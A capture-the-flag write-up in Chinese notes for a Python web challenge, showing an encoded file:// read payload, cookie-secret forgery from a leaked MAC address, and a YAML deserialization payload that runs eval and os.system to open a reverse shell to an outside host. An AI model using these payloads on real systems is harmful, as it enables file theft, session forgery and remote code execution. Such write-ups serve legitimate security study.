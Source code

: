 tags:: CTF/Python/YAML

- # 任意文件读取
	- 读取/proc/self/cmdline得知源码在/app/app.py
	- 使用双写构造payload绕过正则读取源文件：``GET /read?url=file:///proc/self/root/%25%36%31pp/%25%36%31pp.py HTTP/1.1``
- # Cookie伪造
	- 读MAC
		- ```python
		  r = base_get(url + "/read", params = {
		      "url": "file:///sys/class/net/eth0/address"
		  }, acceptable_code=None, timeout = 10)
		  mac = "".join(r.text.split(":"))
		  int(mac, 16)
		  # 2485376910098
		  ```
	- 算secret
		- ```python
		  random.seed(2485376910098)
		  str(random.random()*233)
		  # 169.37847730221344
		  ```
- # YAML反序列化
	- ```python
	  file_content = """\
	  !!python/object/new:tuple
	  - !!python/object/new:map
	    - !!python/name:eval
	    - [ "__import__('os').system('{}')" ]
	  """.format(generate_reverse_shell_payload("laserbreakout.eu.org", 3001))
	  
	  r = base_post(url + "/upload", files = {
	      "file": ("a.txt", file_content)
	  })
	  
	  ```